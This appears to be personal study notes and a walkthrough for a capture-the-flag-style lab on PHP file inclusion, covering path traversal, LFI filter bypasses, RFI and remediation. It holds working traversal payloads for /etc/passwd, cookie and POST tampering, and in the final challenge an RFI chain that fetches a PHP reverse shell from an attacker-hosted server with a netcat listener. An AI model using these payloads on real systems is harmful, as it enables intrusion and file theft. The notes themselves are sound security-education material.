




# File Inclusion


## Introduction
- Sometimes web applications are written to request access to files on a given system via parameters
- 
- 
    - The file name is the parameter sent to the web server
- File inclusion vulnerabilities occur in various programming languages that are poorly written and implemented, this room focuses on PHP vulnerabilities
    - Main issue is that user input is not sanitized and the user controls them and can pass any input to the function

## Path Traversal
- Allows attacker to read operating system resources, such as local files
- Attacker can manipulate the URL to locate and access files or directories outside of the application's root directory
- This occurs when the user's input is passed into a function like file_get_contents in php without input validation/filtering
- 
- Path traversal attack takes advantage of moving the directory a step up with the `../`
- 
- Then instead of the original file the contents of the specified file are posted
- 
- If the web server is running on windows, the attacker would need to provide windows paths
    - Ex. `http://webapp.thm/get.php?file=../../../../boot.ini` or `http://webapp.thm/get.php?file=../../../../windows/win.ini`
- 

## Local File Inclusion (LFI)
- LFI attacks happen due to developers' lack of security awareness
- With PHP, functions such as `include`, `require`, `include_once`, and `require_once` contribute to vulnerable applications
- LFI can happen in any language
- Ex. The code uses a GET request via URL parameter `lang` to include the file on the page. There isn't any input validation. There isn't a directory specified in the `include` function, so we don't need path traversal
```
<?PHP 
	include($_GET["lang"]);
?>
```
- Ex. Because a directory is specified, we can bypass it with path traversal `http://webapp.thm/index.php?lang=../../../../etc/passwd`
```
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

## Local File Inclusion Techniques
- Techniques to bypass filters
1. When we don't have access to the source code of the applications we're testing - called a black box test - errors are significant in understanding how data is passed
    - If we enter invalid input like `THM`, we may get an error like `Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12`
        - This shows that the include function look like `include(languages/THM.php)`, and our input is being appended with `.php`, so the developer is specifing the file type we can pass to the function
        - We also see that the directory of the web application is `/var/www/html/THM-4/`
    - To bypass the file type specification we can use the NULL BYTE, `%00` or `0x00` in hex
        - The null byte is used to disregard anything that comes after it
        - `include("languages/../../../../../etc/passwd%00").".php");` which equivalent to → `include("languages/../../../../../etc/passwd");`
    - THE NULL BYTE trick was fixed in PHP 5.3.4 and above
    - Exercise
        - Use `http://<ip address>/lab3.php?file=../../../../../etc/passwd%00` to display the contents of passwd
2. Filters are being used to remove keywords, like `/etc/passwd`
    - 2 ways to bypass
    1. Use the NULL BYTE `http://webapp.thm/index.php?lang=/etc/passwd%00` now the string is `/etc/passwd%00`, so it won't be removed
    2. Use the `.` to stay in the same directory without being removed by the filter `http://webapp.thm/index.php?lang=/etc/passwd/.`
3. Filters are being used to remove keywords, like `../`
    - Bypass it with `....//....//....//....//....//etc/passwd`
    - PHP will only replace the first set of `../`
    - 
4. Developer might force a defined directory `http://webapp.thm/index.php?lang=languages/EN.php`
    - To bypass it just include the directory in the payload `?lang=languages/../../../../../etc/passwd`
- Exercise
    1. `/lab3.php?file=../../../../../etc/passwd%00`
    2. `file_get_contents` function is causing directory traversal
    3. `THM-profile`
    4. Use `http://<ip address>/lab6.php?file=THM-profile/../../../../../etc/os-release` to get ` NAME="Ubuntu" VERSION="12.04.5 LTS, Precise Pangolin" ID=ubuntu ID_LIKE=debian PRETTY_NAME="Ubuntu precise (12.04.5 LTS)" VERSION_ID="12.04"`

## Remote File Inclusion (RFI)
- Technique to include remote files into a vulnerable application
- Occurs when improperly sanitizing user input, which allows the attacker to inject an external URL into the `include` function
- Requirement for RFI is that the `allow_url_fopen` option needs to be on
- Risk of RFI is higher than LFI since RFI vulnerabilities allow RCE
- Other consequences of RFI
    - Sensitive Information Disclosure
    - Cross Site Scripting (XSS)
    - Denial of Service (DoS)
- An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server
    - The malicious files are injected into the include function via HTTP requests, and the content of the malicious file executes of the application server
- 
- RFI steps
- The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.
`<?PHP echo "Hello THM"; ?>`
- First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## Remediation
- As a developer it's important to be aware of web application vulnerabilities, and how to prevent them
- To prevent file inclusion
    - Keep system and services, including web application frameworks, updated with the latest version.
    - Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
    - A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
    - Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
    - Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
    - Never trust user input, and make sure to implement proper input validation against file inclusion.
    - Implement whitelisting for file names and locations as well as blacklisting.

## Challenge
- Test for LFI
    - Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
    - Enter a valid input to see how the web server behaves.
    - Enter invalid inputs, including special characters and common file names.
    - Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
    - Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
    - Understand the input validation and if there are any filters!
    - Try the inject a valid entry to read sensitive files
1. Can either use Burp Suite, Change the form's HTTP method to POST with inspect element, or use curl
    - To change the HTTP method use inspect element and change GET to POST `<form action= "#" method="GET">`. Then just input `/etc/flag1` to get the flag `F1x3d-iNpu7-f0rrn`
    - Use curl's POST method `curl -X POST -d "file=/etc/flag1" http://10.10.191.25/challenges/chall1.php` to get the flag
2. We're logged in as guest, and only admins can access the page. Check inspect element > Storage > Cookies and we see that under the `Value` section we see `Guest`. Change this to admin and reload the page and we see that we're now recognized as admin. We find that the root directory of the web server is `/var/www/html`, and there's a file called `admin` in this directory. A function that might be vulnerable to LFI may be taking the cookie value and using it to print out the file located in `/var/www/html`. This means that the cookie value is vulnerable to LFI. Let's change the cookie value to the path of our second flag - after traversing directories to make sure we're in the `/` directory - with `../../../../../etc/flag2`. However, we get an error and find that `.php` is being appended to our input. To bypass this use the NULL BYTE with `../../../../../etc/flag2%00`, reload the page, and get the flag `c00k13_i5_yuMmy1`
3. Try to use `?file=../../../../../etc/flag3` and we get `Warning: include(etcflag.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall3.php on line 30`. So some type of string filtering is involved. Try using `?file=....//....//....//....//....//etc//flag3` and we get the same output. Let's try a POST request instead. If we use curl with `curl -X POST -d "file=../../../../../etc/flag3%00" http://10.10.191.25/challenges/chall3.php` we get a curl warning. Use `curl -X POST -d "file=../../../../../etc/flag3%00" http://10.10.191.25/challenges/chall3.php --output -` and it turns out that there's no filtering with a POST request, and we get the flag `P0st_1s_w0rk1in9`
```
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```
4. This was the most fun one for me :). First, you'll need to set up a payload. Download and change the ip address and port of the [pentest monkey php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Next, start an http server on the directory where the reverse shell is located with `python3 -m http.server <port>`. Let's assume you use the port 4444 on the payload and the port 8000 for the http server, then you want to open a netcat listener with `nc -nvlp 4444`. Finally, to receive the connection, use `http://<target ip address>/playground.php?file=http://<attacker ip address>:8000/php-reverse-shell.php` and you have a reverse shell. Run `hostname` to get `lfi-vm-thm-f8c5b1a78692`
